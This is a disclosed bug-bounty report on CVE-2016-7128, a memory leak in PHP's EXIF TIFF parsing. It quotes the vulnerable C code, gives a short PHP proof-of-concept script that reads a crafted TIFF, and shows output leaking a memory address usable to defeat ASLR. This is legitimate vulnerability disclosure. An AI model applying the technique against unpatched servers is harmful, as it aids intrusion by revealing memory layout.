 # Memory Leakage In exif_process_IFD_in_TIFF (CVE-2016-7128)

## Report Details
- **Report ID**: 160294
- **URL**: https://hackerone.com/reports/160294
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-18T01:06:22.439Z
- **Disclosed**: 2019-11-12T09:31:33.041Z

## Reporter
- **Username**: hoangnguyen
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
I found some vulnerable code that leads to the memory leak in exif_process_IFD_in_TIFF. Let take look at code chunk : 
```
if (!ImageInfo->Thumbnail.data && ImageInfo->Thumbnail.offset && ImageInfo->Thumbnail.size && ImageInfo->read_thumbnail) {
	ImageInfo->Thumbnail.data = safe_emalloc(ImageInfo->Thumbnail.size, 1, 0);
	php_stream_seek(ImageInfo->infile, ImageInfo->Thumbnail.offset, SEEK_SET);
	fgot = php_stream_read(ImageInfo->infile, ImageInfo->Thumbnail.data, ImageInfo->Thumbnail.size);
	if (fgot < ImageInfo->Thumbnail.size) {
		EXIF_ERRLOG_THUMBEOF(ImageInfo)
	}
	exif_thumbnail_build(ImageInfo);
}
```
Because lack of checking ImageInfo->Thumbnail.offset if an attack set ImageInfo->Thumbnail.offset larger than ImageInfo->FileSize then *php_stream_read* return 0 to fgot, because  EXIF_ERRLOG_THUMBEOF was defined as : 
```
#define EXIF_ERRLOG_THUMBEOF(ImageInfo)   exif_error_docref(NULL EXIFERR_CC, ImageInfo, E_WARNING, "%s", EXIF_ERROR_THUMBEOF);

```
As you can see there is no exit after this error is output.
After that exif_thumbnail_build(ImageInfo) is called. Because this thumbnail I applied is IMAGE_FILETYPE_JPEG so exif_thumbnail_build will return without error.

Finally ImageInfo->Thumbnail.data is no fill by user data that lead to information leak like below, an attacker can leak address and then use it to bypass some protection such as PIE, ASLR,...

Here the tiff file : https://drive.google.com/open?id=0B0D1DYQpkA9UVGE5QlJaNnIxb1E

Affect : Linux, Mac Os X,Windows
Test script:
---------------
<?php
	$exif = exif_read_data('exif/gen.tiff',0,0,true);
	var_dump($exif);

	$thumb = $exif['THUMBNAIL']['THUMBNAIL'];
	echo bin2hex($thumb);
?>

Actual result:
--------------
```
$./php exif.php

Warning: exif_read_data(gen.tiff): Thumbnail goes IFD boundary or end of file reached in /vagrant_extend/audit/exif.php on line 2

Warning: exif_read_data(gen.tiff): Error in TIFF: filesize(x04E2) less than start of IFD dir(x829A0004) in /vagrant_extend/audit/exif.php on line 2
array(11) {
  ["FileName"]=>
  string(8) "gen.tiff"
  ["FileDateTime"]=>
  int(1468986539)
  ["FileSize"]=>
  int(1250)
  ["FileType"]=>
  int(7)
  ["MimeType"]=>
  string(10) "image/tiff"
  ["SectionsFound"]=>
  string(30) "ANY_TAG, IFD0, THUMBNAIL, EXIF"
  ["COMPUTED"]=>
  array(10) {
    ["html"]=>
    string(24) "width="128" height="132""
    ["Height"]=>
    int(132)
    ["Width"]=>
    int(128)
    ["IsColor"]=>
    int(0)
    ["ByteOrderMotorola"]=>
    int(0)
    ["ApertureFNumber"]=>
    string(5) "f/1.0"
    ["Thumbnail.FileType"]=>
    int(2)
    ["Thumbnail.MimeType"]=>
    string(10) "image/jpeg"
    ["Thumbnail.Height"]=>
    int(132)
    ["Thumbnail.Width"]=>
    int(128)
  }
  ["XResolution"]=>
  string(21) "1414812756/1414812756"
  ["THUMBNAIL"]=>
  array(5) {
    ["ImageWidth"]=>
    int(128)
    ["ImageLength"]=>
    int(132)
    ["JPEGInterchangeFormat"]=>
    int(1280)
    ["JPEGInterchangeFormatLength"]=>
    int(200)
    ["THUMBNAIL"]=>
    string(200) "" # leak leak
  }
  ["ExposureTime"]=>
  string(21) "1414812756/1414812756"
  ["FNumber"]=>
  string(21) "1414812756/1414812756"
}
00c2a7081e7f000000000.... => leak leak (00c2a7081e7f => 0x7f1e08a7c200)
```
Bug here : https://bugs.php.net/bug.php?id=72627

## Attachments
No attachments
